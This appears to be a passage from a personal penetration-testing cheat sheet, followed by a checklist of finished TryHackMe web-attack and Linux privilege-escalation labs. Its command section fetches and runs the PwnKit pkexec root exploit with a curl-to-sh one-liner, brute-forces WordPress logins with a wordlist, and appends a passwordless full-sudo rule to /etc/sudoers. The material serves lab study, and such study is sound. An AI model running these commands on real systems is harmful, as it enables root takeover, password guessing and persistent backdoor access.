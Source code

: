 ### [PwnKit](https://github.com/ly4k/PwnKit)
Self-contained exploit for CVE-2021-4034 - Pkexec Local Privilege Escalation
```
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```

### [wpscan](https://wpscan.com/)
```
wpscan --url $URL 

# bruteforce 
wpscan --url $URL --passwords /usr/share/wordlists/rockyou.txt --usernames $USERNAME
```

### debugfs
list all 
```
df -h  
debugfs PATH
```
### sudoers
```
echo 'commander ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
```

## Walkthrough Labs

### TryHackMe

#### Web attack and SQL injection
- [X] [[Easy] Walking An Application](https://tryhackme.com/room/walkinganapplication)
- [X] [[Easy] Web Enumeration](https://tryhackme.com/room/webenumerationv2)
- [X] [[Medium] SQL Injection](https://tryhackme.com/room/sqlinjectionlm)
- [X] [[Easy] SQL Injection Lab](https://tryhackme.com/room/sqlilab)
- [X] [[Easy] Authentication Bypass](https://tryhackme.com/jr/authenticationbypass)
- [X] [[Easy] IDOR](https://tryhackme.com/jr/idor)
- [X] [[Easy] SSRF](https://tryhackme.com/jr/ssrfqi)
- [X] [[Medium] File Inclusion](https://tryhackme.com/room/fileinc)
- [X] [[Easy] Intro to Cross-site Scripting](https://tryhackme.com/room/xss)
- [X] [[Easy] Command Injection](https://tryhackme.com/room/oscommandinjection)
- [X] [[Easy] Upload Vulnerabilities](https://tryhackme.com/jr/uploadvulns)
- [X] [[Info] Bypass Disable Functions](https://tryhackme.com/room/bypassdisablefunctions)

#### Linux Privilege Escalation
- [X] [[Easy] Linux: Local Enumeration](https://tryhackme.com/room/lle)
- [X] [[Easy] Enumeration](https://tryhackme.com/room/enumerationpe)
- [X] [[Medium] Linux PrivEsc](https://tryhackme.com/room/linuxprivesc) 
- [X] [[Medium] Linux Privilege Escalation](https://tryhackme.com/room/linprivesc)
- [X] [[Info] Sudo Security Bypass](https://tryhackme.com/room/sudovulnsbypass)
- [X] [[Easy] Common Linux Privesc
](https://tryhackme.com/room/commonlinuxprivesc)
- [X] [[Easy] Vulnversity](https://tryhackme.com/room/vulnversity)
- [X] [[Easy] Basic Pentesting](https://tryhackme.com/room/basicpentestingjt)
- [X] [[Easy] Bolt](https://tryhackme.com/room/bolt)
